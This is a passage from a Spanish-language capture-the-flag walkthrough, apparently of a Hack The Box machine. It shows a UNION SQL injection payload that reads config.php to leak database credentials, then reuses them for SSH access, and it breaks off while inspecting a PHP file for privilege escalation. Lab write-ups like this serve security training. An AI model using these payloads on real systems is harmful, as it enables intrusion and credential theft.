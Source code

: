 ```
player=' union select LOAD_FILE('/var/www/html/config.php')-- - 
```

Estás son las `credenciales` a la base de datos `november` y podemos utilizarlas para intentar conectarnos por `SSH`

```
$username = "uhc";
$password = "uhc-11qual-global-pw";
```
## Intrusión

Reutilizamos las credenciales para la base de datos encontradas y nos `conectamos` por `SSH`

```
# ssh uhc@10.129.96.75   
uhc@10.129.96.75's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Nov  8 21:19:42 2021 from 10.10.14.8
uhc@union:~$ whoami
uhc
```
## Privilege Escalation

Inspeccionando archivos he encontrado este interesante debido a que se `ejecuta` un `comando` como `sudo`

```
uhc@union:/var/www/html$ cat firewall.php 
<?php
require('config.php');

if (!($_SESSION['Authenticated'])) {
  echo "Access Denied";
  exit;
}

?>
<link href="//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/css/bootstrap.min.css" rel="stylesheet" id="bootstrap-css">
<script src="//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/js/bootstrap.min.js"></script>
<script src="//cdnjs.cloudflare.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>
<!------ Include the above in your HEAD tag ---------->

<div class="container">
		<h1 class="text-center m-5">Join the UHC - November Qualifiers</h1>
		
	</div>
	<section class="bg-dark text-center p-5 mt-4">
		<div class="container p-5">
<?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
```
